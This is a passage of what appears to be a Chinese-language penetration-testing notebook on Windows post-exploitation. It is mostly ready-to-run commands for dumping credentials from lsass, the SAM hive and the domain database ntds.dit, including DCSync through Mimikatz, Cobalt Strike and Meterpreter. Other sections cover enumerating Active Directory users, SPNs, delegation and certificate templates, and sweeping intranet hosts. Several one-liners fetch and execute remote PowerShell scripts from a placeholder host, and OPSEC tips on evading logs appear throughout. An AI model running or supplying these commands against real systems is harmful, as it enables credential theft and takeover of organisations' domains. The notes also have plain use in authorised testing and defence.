powershell IEX(New-Object Net.WebClient).DownloadString('http://HOST/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds
```

[Get-PassHashes.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1) 获取 Hash

```powershell
powershell IEX(New-Object Net.WebClient).DownloadString("http://HOST/Get-PassHashes.ps1");Get-PassHashes
```

3.Meterpreter 运行 Mimikatz

Meterpreter 获取 Hash，前提要拿到 SYSTEM 权限 `getuid`。

```plaintext
use post/windows/gather/hashdump
set session 1
exploit
```

```plaintext
use post/windows/gather/smart_hashdump
set session 1
exploit
```

使用 Mimikatz

```plaintext
// 加载 mimikatz
load mimikatz

// 获取 hash 1
wdigest
kerberos
msv
ssp
tspkg
livessp

// 查询模块使用
mimikatz_command -h

// 查询有哪些模块
mimikatz_command -f::

// 获取 hash 2
mimikatz_command -f samdump::hashes // 获取 hash
mimikatz_command -f sekurlsa:searchPasswords // 获取明文
mimikatz_command -f samdum:bootkey
```

4.Cobalt Strike 运行 Mimikatz 模块

Cobalt Strike Beacon 获取 Hash

```plaintext
hashdump
logonpasswords

// 也可以执行 mimikatz 命令
mimikatz sekurlsa::logonpassword
```

**二、离线读**

1.Procdump 提取 lsass 数据到文件

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) 导出 lsass 进程数据，用 Mimikatz 读取数据。默认不存在于系统，需要下载传到目标机器使用，在使用的过程中需要管理员权限运行，普通用户无法转存。

```plaintext
// 32 位系统用法
procdump.exe -accepteula -ma lsass.exe lsass.dmp


// 64 位系统用法
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

还原数据。

```plaintext
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

2.Dump64 提取 lsass 数据到文件（待补充）⚒️

Microsoft Visual Studio 自带的工具，位于 `Microsoft Visual Studio\Installer\Feedback\`。

[https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/)

```plaintext
dump64.exe <LsassPID> lsass.dmp
```

3.注册表导出 Hash

```plaintext
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

获取哈希。

```plaintext
mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" exit

python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
```

这里解释下获取到的哈希格式：`UserName:RID:LM-Hash:NTLM-Hash:::`

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:98feb9b195adec8f7336e5471d6e435d:::
wuhui:1001:aad3b435b51404eeaad3b435b51404ee:9df8fdcfb193c34fb9770367491e25d1:::
```

其中 RID 是每个用户的唯一标识。可以查看 SID 最后的数字获得。这里每个用户 SID 前缀都是 `S-1-5-21-3024751843-2535029458-3924619718-` 后面跟上数字，这个数字就是 RID。

```plaintext
PS C:\Users\gbb> wmic USERACCOUNT list brief
AccountType  Caption                      Domain    FullName   Name                SID

512          RAINGRAY\Administrator       RAINGRAY             Administrator       S-1-5-21-3024751843-2535029458-3924619718-500
512          RAINGRAY\DefaultAccount      RAINGRAY             DefaultAccount      S-1-5-21-3024751843-2535029458-3924619718-503
512          RAINGRAY\gbb                 RAINGRAY  rain gray  gbb                 S-1-5-21-3024751843-2535029458-3924619718-1001
512          RAINGRAY\Guest               RAINGRAY             Guest               S-1-5-21-3024751843-2535029458-3924619718-501
512          RAINGRAY\WDAGUtilityAccount  RAINGRAY             WDAGUtilityAccount  S-1-5-21-3024751843-2535029458-3924619718-504
```

而看到 LM hash aad3b435b51404eeaad3b435b51404ee 现在禁用了 LM hash 仅做占位用，NT hash 是 31d6cfe0d16ae931b73c59d7e0c089c0，说明这个账户没有启用，也是占位用。

###### Credential Guard⚒️

[Defender Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard) 功能从 Windows 10 和 Windows Server 2016 开始加入，导致无法导出哈希。

##### Active Directory 数据库账户哈希获取

域控制器数据库在安装时默认位置是 %SystemRoot%\\NTDS\\ntds.dit，此文件存放着所有域用户密码哈希。ntds.dit 使用 %SystemRoot%\\System32\\config\\SYSTEM 注册表配置中的密钥加密过，无法直接读取。

和 SAM 数据库一样，ntds.dit 也是使用中无法直接复制出副本，这里介绍四种副本获取方法：

-   Volume Shadow Copy Service (VSS) 获取数据库
-   VssAdmin 获取数据库
-   VShadow 获取数据库
-   NinjaCopy 获取数据库

获得副本库后可以使用以下三种方法去获取其哈希：

-   QuarkPwDump 解密数据库
-   Secretsdump 解密数据库
-   NtdsAudit 解密数据库
-   Mimikatz 解密数据库

**一、Volume Shadow Copy Service (VSS) 获取数据库**

由于不能这俩文件被对应程序占用无法读取复制出来。

使用 Ntdsutil 创建备份获取其文件。

此工具在 Windows Server 2003、2008、2012 上默认存在。

1.获取历史快照

如果有历史快照看能不能获取历史数据信息。

```plaintext
// 查看历史快照
ntdsutil snapshot "List All" quit quit

// 查看现有挂载信息
ntdsutil snapshot "List Mounted" quit quit
```

2.新建实时快照

```plaintext
ntdsutil snapshot "activate instance ntds" create quit quit
```

*OPSEC：执行后日志系统 System 类别产生 Event ID 98 的日志。*

3.挂载快照复制数据

```plaintext
// 挂载快照。{GUID} 是快照创建完的 ID。
ntdsutil snapshot "mount {GUID}" quit quit

// 复制数据库。$SNAP_XXXX 是挂载完快照显示的目录名称。
copy C:\$SNAP_XXXX_VOLUME$\Windows\NTDS\ntds.dit C:\ntds.dit
```

4.取消挂载并删除快照

```plaintext
// 取消挂载
ntdsutil snapshot "unmount {GUID}" quit quit

// 删除快照
ntdsutil snapshot "del {GUID}" quit quit
```

一键操作，自动挂载、创建快照、取消挂载、复制数据文件到 C:\\datas 目录中，目录不存在会自动创建。*但是不知道会不会自动删除快照，万一没删除留下痕迹呢？*

```plaintext
ntdsutil "activate instance ntds" ifm create full C:\datas quit quit
```

```plaintext
NTDSUTIL "Activate Instance NTDS" "IFM" "Create Full C:\datas" "q" "q"
```

**二、VssAdmin 获取数据库**

也是默认域控自带软件。Windows 11 H2 中也存在。

1.查询已有快照

```plaintext
vssadmin list shadows
```

2.给 C 盘系统盘创建快照。默认 C 盘不是系统盘需要具体更换盘符。

```plaintext
vssadmin create shadow /for=C:
```

3.获取 Shadow Copy Volume Name 和 Shadow Copy ID

```plaintext
Shadow Copy ID: <XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX>
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy10
```

4.复制快照内 \\Windows\\NTDS\\ntds.dit 数据库

```plaintext
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy10\Windows\NTDS\ntds.dit C:\ntds.dit
```

或者管理员权限创建快捷方式访问。

```plaintext
// 创建将快照创建为 C:\tmpdata 快捷方式
mklink /d C:\tmpdata \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy10

// 删除快捷方式
rd C:\tmpdata
```

5.删除快照

根据盘符删除

```plaintext
vssadmin delete shadows /for=C: /quite
```

或填入 Shadow Copy ID 删除

```plaintext
vssadmin delete shadows /shadow=<XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX> /quite
```

**三、VShadow 获取数据库**

需要通过 Windows Software Development Kit (SDK) 中提取出来，上传到目标机器执行。

1.查询当前快照

```plaintext
vshadow.exe -q
```

2.管理员权限创建快照

\-p Persistent 备份操作，-nw no writers 提高创建速度，C: 是要备份的盘符。

```plaintext
vshadow.exe -p -nw C:
```

备份完获取 SnapshotSetID、SNAPSHOT ID、Shadow copy device name。

3.获取数据库文件

```plaintext
copy <Shadow copy device name>\Windows\NTDS\ntds.dit C:\ntds.dit
```

4.删除快照

```plaintext
vshadow -dx=<SnapshotSetID>
vshadow -ds=<SNAPSHOT ID>
```

*OPSEC：vshadow 执行后 System 类别产生 Event ID 7036 日志。*

**四、NinjaCopy 获取数据库**

下载 [NinjaCopy](https://github.com/3gstudent/NinjaCopy) 上传到目标系统用法。

```plaintext
// 导入模块
Import-Module .\invoke-NinjaCopy.ps1

// 将 -Path 指定的文件导出到指定目录下。
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination C:\SAM.hive
Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination C\SYSTEM.hive
Invoke-NinjaCopy -Path C:\Windows\NTDS\ntds.dit -LocalDestination "C:\ntds.dit"
```

Cobalt Strike Beacon powershell-import 和 powershell 可以简化上传步骤。

```plaintext
// 将本机 C:\Invoke-NinjaCpy.ps1 导入到目标环境。
beacon> powershell-import C:\Invoke-NinjaCpy.ps1
beacon> Invoke-NinjaCopy -Path C:\Windows\NTDS\ntds.dit -LocalDestination "C:\ntds.dit"
```

远程执行。

```plaintext
// 将脚本 HTTP 请求下载执行。
powershell.exe -exec bypass -nop -c "IEX((new-object net.webclient).downloadstring('http://<Host>/Invoke-NinjaCopy.ps1'))";Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination C:\SAM.hive;Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination C\SYSTEM.hive;Invoke-NinjaCopy -Path C:\Windows\NTDS\ntds.dit -LocalDestination "C:\ntds.dit"
```

**五、QuarkPwDump 解密数据库**

[QuarkPwDump](https://github.com/quarkslab/quarkspwdump)

1.修复 ntds.dit

```plaintext
esentutl /p /o ntds.dit
```

2.获取哈希

输出哈希到文件 hashs.txt，不想落地文件可以删除 --output 选项，-ntds-file 是指定 ntds 数据库文件。

```plaintext
QuarksPwDump.exe --dump-hash-domain -outpu hashs.txt -ntds-file ntds.dit
```

**六、Secretsdump 解密数据库**

原始的 [impacket](https://github.com/SecureAuthCorp/impacket) 需要 Python 环境才能运行，安装库过于麻烦，所以使用 [impacket-examples-windows](https://github.com/maaaaz/impacket-examples-windows) 已经把对应脚本输出成 exe 可执行文件方便使用。

\-system 指定 SYSTEM 文件，-ntds 指定 ntds 数据库文件。

```plaintext
secretsdump.exe -system system.hive -ntds ntds.dit LOCAL
```

**七、NtdsAudit 解密数据库**

[NtdsAudit](https://github.com/dionach/NtdsAudit)

\-s 指定 SYSTEM 文件 -p 将结果输出，--users-cvs 输出到 csv 文件中。

```plaintext
NtdsAudit.exe "ntds.dit" -s "system.hive" -p pwdump.txt --users-cvs users.csv
```

**八、Mimikatz 解密数据库**

[Mmikatz](https://github.com/gentilkiwi/mimikatz) 的 DCSync 功能使用 DRS（Directory Replication Service）从 ntds.dit 提取哈希。

Cobalt Strike Beacon 命令从 ntds.dit 提取当前域控域名为 `<Domain>` 哈希，输出到 csv 文件。

```plaintext
beacon> mimikatz lsadump::dcsync /domain:<Domain> /all /csv
```

获取当前域 `<Domain>` 中用户名为 `<Username>` 的哈希。

```plaintext
beacon> mimikatz lsadump::dcsync /domain:<Domain> /user:<Username>
```

查看所有用户详细信息。

```plaintext
beacon> mimikatz lsadump::lsa /inject
```

#### 1.1.6 自动化信息收集工具

市面上有一堆自动化工具：

1.  MSF Meterpreter 综合信息收集
    
    ```plaintext
     run scraper
     run winenum
    ```
    
2.  [Seatbelt](https://github.com/GhostPack/Seatbelt) DotNet 程序收集
    
3.  [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
    
4.  [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
5.  [SharpUp](https://github.com/GhostPack/SharpUp)
    
6.  [WES-NG](https://github.com/bitsadmin/wesng)
    
7.  [searchall](https://github.com/Naturehi666/searchall)
    
8.  [PrivescCheck](https://github.com/itm4n/PrivescCheck)
    
9.  [LaZagne](https://github.com/AlessandroZ/LaZagne)，专注系统、浏览器及各种软件凭证获取。
    

在使用这些工具的同时，也要了解他们会收集哪些项，因此上面都是手动收集的示例。

### 1.2 Active Directory 信息收集

侦察域之前应该先确定当前计算机有没加入域，简称定位域。

```plaintext
C:\Users\wuhui>systeminfo | findstr "域:"
域:               raingray.com
```

查看当前登录域

```plaintext
C:\Users\wuhui>net config workstation
计算机名                     \\DESKTOP-5T90749
计算机全名                   DESKTOP-5T90749.raingray.com
用户名                       wuhui

工作站正运行于
        NetBT_Tcpip_{01996863-CF14-43D9-AF29-C17885FC0239} (000C29E0E816)

软件版本                     Windows 10 Pro

工作站域                     RAINGRAY0
工作站域 DNS 名称            raingray.com
登录域                       DESKTOP-5T90749

COM 打开超时 (秒)            0
COM 发送计数 (字节)          16
COM 发送超时 (毫秒)          250
命令成功完成。
```

定位域控。可以看目标机器有没开放 TCP 端口为 389、88 的 LDAP、Kerberos 认证服务，TCP 和 UDP 464 端口的 Kerberos 密码修改服务。

```plaintext
// 查询域控制器
new group "domain controllers" /domain

// 查看 <Domain> DNS A 记录
nslookup <Domain>

// 查询 hostname dns 解析记录
nslookup -type=all_ldap._tcp.dc._msdcs.hostname

// 域控计算机一定会被设置 SPN。可以扫描设置了 spn 的主机。返回的 CN=DC,OU=Domain Controllers,DC=baidu,DC=com，其中 DC=baidu 是其二级域，DC=com 是顶级域
setspn -T <Domain> -Q */*

// 查看所有域控制器
net group *domain controllers* /domain

// 查看域内主域控，仅限 Win2008及以后系统能够用
netdom query pdc

// 查看 <Domain> 域内域控制器的主机名
nltest /DCLIST:<Domain>

// 查看当前域中域控主机名
net group "Domain Controllers" /domain

// 向域控同步时间找到域控
net time /domain

// 域内域控会被当做 DNS 服务器使用
ipconfig /all
```

#### 1.2.1 用户

**1.用户信息**

使用命令提示符查询。

获取域内用户信息

```plaintext
// 查看当前域内所有账号
net user /domain

// 查看当前域内用户名为 <username> 的信息
net user <username> /domain
```

定位域内用户组信息

```plaintext
// 查询当前域内所有用户组。
net group /domain

// 查询当前域 Computers 组内计算机列表
net group "domain Computers" /domain

// 查询 domainanme 域内所有机器
net view /domain:domainname

// 查询域企业管理员 Admins 用户组内用户。
net group "Enterprise Admins" /domain

// 查询域管理员 Admins 用户组内用户。就是域管账户。
net group "Admins" /domain

// 查看域密码策略。可以根据策略来喷洒密码
net accounts /domain

// 登录本机的域管理员
net localgroup Administrators /domain
```

使用 PowerShell 查询

获取域账户信息。

```plaintext
PS C:\Users\Administrator> Get-ADUser  -Filter *

DistinguishedName : CN=wuhui,OU=信息科技部,DC=raingray,DC=com
Enabled           : True
GivenName         : hui
Name              : wuhui
ObjectClass       : user
ObjectGUID        : 4974a2e4-856c-424f-b37c-c9119675867b
SamAccountName    : wuhui
SID               : S-1-5-21-247606177-2237963610-2667746150-1114
Surname           : wu
UserPrincipalName : wuhui@raingray.com
```

这里使用 [DistinguishedName](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ldap/distinguished-names) 用于标识用户位置，由 DC,OU,CN 这些字段组成，DC 说明了是什么域 raingray.com，OU 说在哪个组织单元里，CN 就是公共名称（Common Name）。

在搜索时就可以用这些字段作为条件搜索用户。

```plaintext
PS C:\Users\Administrator> Get-ADUser -Filter * -SearchBase "OU=信息科技部,DC=RAINGRAY,DC=COM"


DistinguishedName : CN=wuhui,OU=信息科技部,DC=raingray,DC=com
Enabled           : True
GivenName         : hui555
Name              : wuhui
ObjectClass       : user
ObjectGUID        : 4974a2e4-856c-424f-b37c-c9119675867b
SamAccountName    : wuhui
SID               : S-1-5-21-247606177-2237963610-2667746150-1114
Surname           : wu111
UserPrincipalName : wuhui@raingray.com
```

使用 PowerShell 便携的 PowerView 脚本查询

获取当前域所有用户详情信息。

```plaintext
Get-NetUser
```

获取指定域所有用户详情信息。

```plaintext
Get-NetUser -domain <domain name>
```

获取当前域指定用户详情信息。

```plaintext
Get-NetUser -Identity <username>
```

获取指定域的用户名。

```plaintext
Get-NetUser -domain <domain name> | Select samaccountname
```

**2.用户描述信息**

直接查询详细信息，输出内容较多，可以用管道符配合 select 获取输出对象指定属性（属性名称通过输出结果来看），这里只获取用户名和描述信息。这些信息都是管理员手动添加上去的，看描述方便定位有价值的用户

```plaintext
# 所有用户
Get-NetUser | Select samaccountname, description

# 指定用户
Get-NetUser -Identity <username> | Select samaccountname, description
```

**3.PreAuthentication**

涉及 Kerberos Authentication 内容，默认创建用户不会开启“禁用预认证”选项。



如果开启就能使用这条命令，查询出当前域对应用户。

```plaintext
Get-NetUser -PreAuthNotRequired | Select samaccountname
```

同样也可以指定查询其他域

```plaintext
Get-NetUser -PreAuthNotRequired -Domain <Domain Name> | Select SamAccountName
```

开启了可以使用 AS-REP Roasting 攻击。

**4.SPN**

查询启用了 SPN 的用户名，开启后可以使用 Kerberoasting 攻击，得到 krb5tgs，离线破解。

```plaintext
Get-NetUser -SPN | Select samaccountname
```

查询指定域开启了 SPN 的用户。

```plaintext
Get-NetUser -SPN -domain <Domain Name>| Select samaccountname
```

或者使用 Windows 自带的 [setspn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) 查询 SPN。

```plaintext
// 查询当前域所有 SPN
setspn -Q */*

// 查询指定域所有 SPN
setspn -T <Domain Name> -Q */*
```

这里 CN 打头的都是具体对象，而缩进内容是 SPN。主要关注 CN=Users，只发现 krbtgt 用户设置了 SPN，其余的都是域控计算机。

```plaintext
PS C:\Users\bunny> setspn.exe -Q */*
正在检查域 DC=whoamianony,DC=org
CN=DC,OU=Domain Controllers,DC=whoamianony,DC=org
        TERMSRV/DC
        TERMSRV/DC.whoamianony.org
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC.whoamianony.org
        ldap/DC.whoamianony.org/ForestDnsZones.whoamianony.org
        ldap/DC.whoamianony.org/DomainDnsZones.whoamianony.org
        DNS/DC.whoamianony.org
        GC/DC.whoamianony.org/whoamianony.org
        RestrictedKrbHost/DC.whoamianony.org
        RestrictedKrbHost/DC
        RPC/01982af1-1153-4ddc-b024-9a35fd66b0af._msdcs.whoamianony.org
        HOST/DC/WHOAMIANONY
        HOST/DC.whoamianony.org/WHOAMIANONY
        HOST/DC
        HOST/DC.whoamianony.org
        HOST/DC.whoamianony.org/whoamianony.org
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/01982af1-1153-4ddc-b024-9a35fd66b0af/whoamianony.org
        ldap/DC/WHOAMIANONY
        ldap/01982af1-1153-4ddc-b024-9a35fd66b0af._msdcs.whoamianony.org
        ldap/DC.whoamianony.org/WHOAMIANONY
        ldap/DC
        ldap/DC.whoamianony.org
        ldap/DC.whoamianony.org/whoamianony.org
CN=krbtgt,CN=Users,DC=whoamianony,DC=org
        kadmin/changepw
CN=PC2,CN=Computers,DC=whoamianony,DC=org
        TERMSRV/PC2
        TERMSRV/PC2.whoamianony.org
        RestrictedKrbHost/PC2.whoamianony.org
        HOST/PC2.whoamianony.org
        RestrictedKrbHost/PC2
        HOST/PC2

发现存在 SPN!
```

为什么不枚举机器 SPN？

> 对于破解出的明文口令，只有域用户帐户 (Users) 的口令存在价值，不必考虑机器帐户的口令 (无法用于远程连接)
> 
> [域渗透——Kerberoasting (3gstudent.github.io)](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting)

**5.属组**

查询用户属于哪个组。

```plaintext
Get-NetUser | Select samaccountname, memberof
```

**6.外部用户⚒️**

没搞懂外部用户是啥。

```plaintext
Get-DomainForeignUser
```

#### 1.2.2 组信息

**1.组描述信息**

查看当前域所有组详细信息

```plaintext
Get-NetGroup

Get-DomainGroup
```

查询指定域内所有组详细信息

```plaintext
Get-NetGroup -domain <domain name>
```

查看指定组详细信息

```plaintext
Get-NetGroup -Identity <Group Name>

Get-DomainGroup -Identity <Group Name>
```

查看所有组描述信息，顺带关注有没管理员自己创建的组。

```plaintext
Get-NetGroup | Select samaccountname, description
```

**2.组成员信息**

查询当前域内指定组中有哪些成员。

```plaintext
Get-NetGroupMember -Identity <Group Name> -Recurse

Get-DomainGroupMember -Identity <Group Name> -Recurse
```

查询指定域域内指定组中有哪些成员。

```plaintext
Get-NetGroupMember -Domain <Domain Name> -Identity <group name> -Recurse
```

可以指定详细信息，这里获取当前域内指定组成员信息，包含域名、组名、组成员名、组成员类型。

```plaintext
Get-NetGroupMember -Identity <group name> -Recurse | Select groupdomain, groupname, membername, memberobjectclass
```

**3.外部组⚒️**

和外部用户一样，搞不懂啥意思。

```plaintext
Get-DomainForeignGroupMember
```

#### 1.2.3 主机信息

查询当前域内主机 FQDN 和系统类型及版本信息。

```plaintext
Get-NetComputer | Select dnshostname, operatingsystem, operatingsystemversion
```

查询其他域主机（需要有域信任）FQDN 和系统类型及版本信息。

```plaintext
Get-NetComputer -domain <domain name> | Select dnshostname, operatingsystem, operatingsystemversion
```

IP 则需要自己解析。或者用 dnsx 解析器批量操作。

```plaintext
nslookup <FQDN> [DNS Server]
```

#### 1.2.4 组织单元

查看当前域有哪些 OU，并展示所有 OU 详细信息。

```plaintext
Get-DomainOU
```

嫌详细信息太多，也可以只是展示名字。

```plaintext
Get-DomainOU -Properties Name
```

最后只展示指定 OU 详情。

```plaintext
Get-DomainOU -Identity <OU Name>
```

#### 1.2.5 Kerberos 委派

**1.非约束委派⚒️**

被设置委派的对象 [userAccountControl](https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) 属性值会新增 TRUSTED\_FOR\_DELEGATION。因此可以使用 LDAP 过滤器来查询，下面 PowerView 的 -Unconstrained 就是这么做的。

```plaintext
(userAccountControl:1.2.840.113556.1.4.803:=524288)
```

看当前域那台计算机被设置非约束委派。

```plaintext
Get-NetComputer -Unconstrained | select dnshostname
```

看指定域那台计算机被设置非约束委派。

```plaintext
Get-NetComputer -Unconstrained -Domain <DomainName> | select dnshostname
```

**需要补充用户设置非约束委派的查询**

**2.约束委派**

哪台计算机设置了约束委派。

```plaintext
Get-NetComputer -TrustedToAuth
```

哪个用户设置了约束委派。

```plaintext
Get-NetUser -TrustedToAuth
```

**3.基于资源的约束委派**

使用 adPEAS 枚举。

```plaintext
Invoke-adPEAS [-Domain <DomainName>] -Module Delegation
```

#### 1.2.6 组策略⚒️

详细展示当前机器应用了哪些 GPO。

```plaintext
Get-DomainGPO -Properties DisplayName
```

查询指定机器应用的 GPO。

```plaintext
Get-DomainGPO -Properties DisplayName -ComputerIdentity <Computer Name>
```

查询指定 GPO 详情。

```plaintext
Get-DomainGPO -Identity <GPO Name>
```

还可以筛属性，查看指定 OU 应用了哪些组策略（GPO）

```plaintext
Get-DomainOU -Identity <OU Name> -Properties gplink
```

也可以反查 GPO 应用在哪些 OU。

```plaintext
Get-DomainOU -gpLink <GPO ID>
```

需要补充：Group Policy Preferences（GPP），里面存放着密码呢。[https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp](https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp)

#### 1.2.7 其他自动化侦察工具⚒️

使用工具时按需运行，不要默认运行全部模块，流量大容易被发现。

**1.SharpView**

[tevora-threat/SharpView: C# implementation of harmj0y's PowerView (github.com)](https://github.com/tevora-threat/SharpView)

使用 C Sharp 对 PowerView 重新实现。

**2.SharpHound**

图形化：[BloodHoundAD/BloodHound: Six Degrees of Domain Admin (github.com)](https://github.com/BloodHoundAD/BloodHound)

客户端信息收集工具：[BloodHoundAD/SharpHound: C# Data Collector for BloodHound (github.com)](https://github.com/BloodHoundAD/SharpHound)

自动化信息收集，使用图形方式展示域内信息。

**3.ADRecon**

[adrecon/ADRecon: ADRecon is a tool which gathers information about the Active Directory and generates a report which can provide a holistic picture of the current state of the target AD environment. (github.com)](https://github.com/adrecon/ADRecon)

**4.adPEAS**

[61106960/adPEAS: Powershell tool to automate Active Directory enumeration. (github.com)](https://github.com/61106960/adPEAS)

**5.CrackMapExec**

[Porchetta-Industries/CrackMapExec: A swiss army knife for pentesting networks (github.com)](https://github.com/Porchetta-Industries/CrackMapExec)

[Installation for Windows - CrackMapExec ~ CME WIKI (porchetta.industries)](https://wiki.porchetta.industries/getting-started/installation/installation-on-windows)

**6.AdFind**

[AdFind (joeware.net)](http://www.joeware.net/freetools/tools/adfind/index.htm)

**7.dsquery**

dsquery，默认只有域控上有，可以手动上传一个到机器上使用。

```plaintext
// 查看域内所有机器
dsquery computer

// 查看当前域中所有账户名
dsquery user

// 查看当前域中所有组名
dsquery group

// 查看当前域所处网段信息，可以结合 nbtscan 扫描。
dsquery subnet

// 查看域内所有 Web 站点
dsquery site

// 查看当前域中的服务器主机名
dsquery server

// 查询前 240 个以 admin 开头的用户名
dsquery user domainroot -name admin* -limit 240
```

#### 1.2.8 DACL

可所有 DACL。

```plaintext
Get-DomainObjectAcl
```

主要关注返回对象三个属性：

-   ActiveDirectoryRights，权限
    
-   ObjectDN，用户名、组、域  
    ObjectSID 用户或组 SID
    
-   SecurityIdentifier，用户 SID
    

这样能知道 SecurityIdentifier 用户或组对目标 ObjectSID 对应的 ObjectDN 用户或组拥有些权限，这个权限写在 ActiveDirectoryRights 内。

查看指定对象 ACL，看看哪些用户或组有权限操作它。

```plaintext
Get-DomainObjectAcl -Identity <UserName | GroupName | *> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Select Identity,AceType,ObjectCN,ActiveDirectorys | findstr '\'
```

查看当前用户对哪些对象有权限操作。

```plaintext
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}} | Select Identity,AceType,ActiveDirectoryRights,ObjectDN
```

查看指定用户对哪些对象有权限操作。

```plaintext
Get-DomainUser -Identity <UserName> | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}} | Select Identity,AceType,ActiveDirectoryRights,ObjectDN
```

#### 1.2.9 域信任

域信任关系查询。

```plaintext
Get-DomainTrust
```

nltest

```plaintext
nltest /domain_trusts
```

#### 1.2.10 ADCS

**1.枚举服务**

[Certify](https://github.com/GhostPack/Certify) 枚举。

```plaintext
// 扫描当前域
certify.exe cas

// 扫描指定域
certify.exe cas /domain:<Domain Name>
```

如果安装了”证书颁发机构 Web 注册（Certification Authority Web Enrollment）“，就可以直接扫描 IIS 提供的 HTTP 服务，只要回显 401 就能确定存在服务。

```plaintext
http://<IP>:<Port>/certsrv/certfnsh.asp
https://<IP>:<Port>/certsrv/certfnsh.asp
```

**2.脆弱模板**

找出可能存在问题的证书模板。

```plaintext
// 查询当前域
certify.exe find /vulnerable

// 查找指定域
certify.exe find /vulnerable /domain:<Domain Name>
```

**3.客户认证模板**

```plaintext
certify.exe find /clientauth

certify.exe find /clientauth /domain:<Domain Name> 
```

## 2 内网主机存活探测及服务发现

通过据点信息收集，搜集到了诸多网段，需要快速确认网段内正在运行的主机，[netspy](https://github.com/shmilylty/netspy)、[gogo](https://github.com/chainreactors/gogo) 集成下文提到的诸多协议确认能够访问的主机，存活主机确认后用，需要开启服务扫描，这些步骤和外网做测试没有区别。

*OPSEC：大型内网会有安全设备扫描动作可能触发告警，最好使用弱口令模拟成正常登录操作。*

### 2.1 NetBIOS⚒️

nmap

```plaintext
nmap -sU -T4 --script nbstat.nes -p 137 10.10.10.0/24
```

msf

```plaintext
use auxiliary/scanner/netbios/nbname
```

[nbtscan](http://www.unixwiz.net/tools/nbtscan.html)

```plaintext
nbtscan 192.168.1.0/24
```

### 2.2 SNMP⚒️

[https://micro8.gitbook.io/micro8/contents-1/11-20/20-ji-yu-snmp-fa-xian-nei-wang-cun-huo-zhu-ji](https://micro8.gitbook.io/micro8/contents-1/11-20/20-ji-yu-snmp-fa-xian-nei-wang-cun-huo-zhu-ji)

### 2.3 ICMP

1.ping

扫 C 段主机，也可以将常见命令写个 bat 比如扫 C 段 + 获取 arp 表 + 系统信息

```plaintext
for /l %i in (1,1,255) do @ ping 192.168.124.%i -w 1 -n 1|find /i "ttl="
```

将结果输出到文件

```plaintext
@for /l %i in (1,1,255) do @ping -n 1 -w 40 10.10.10.%i & if errorlevel 1 (echo 10.10.10.%i>>c:\a.txt) else (echo 10.10.10.%i >>c:\b.txt)
```

2.nmap

```plaintext
nmap -sn -PE -T4 192.168.0.0/24
```

3.PowerShell

[TSPingSweep.ps1 扫描脚本](https://github.com/SnakesAndLadders/PowershellProfile/blob/master/Scripts/Invoke-TSPingSweep.ps1)

```plaintext
powershell.exe -exec bypass -Command "Import-Module ./Invoke-TSPingSweep -StartAddress 192.168.1.1 -EndAddress 192.168.1.254 -ResolveHost -ScanPort Port 445,135"

powershell iex(new-object net.webclient).downloadstring("http://host:port/Invoke-TSPingSweep.ps1);Invoke-TSPingSweep -StartAddress 10.10.10.1 -EndAddress 10.10.10.254 -ResolveHost -ScanPort -Port 445, 135
```

如果不想传工具检查 Ping、TCP 是否通讯 PowerShell 的 cmdlet 好用 [Test-NetConnection](https://learn.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection?view=windowsserver2022-ps)。

```plaintext
PS C:\Users\gbb> # ICMP 测试
PS C:\Users\gbb> Test-NetConnection -ComputerName 13.107.4.52


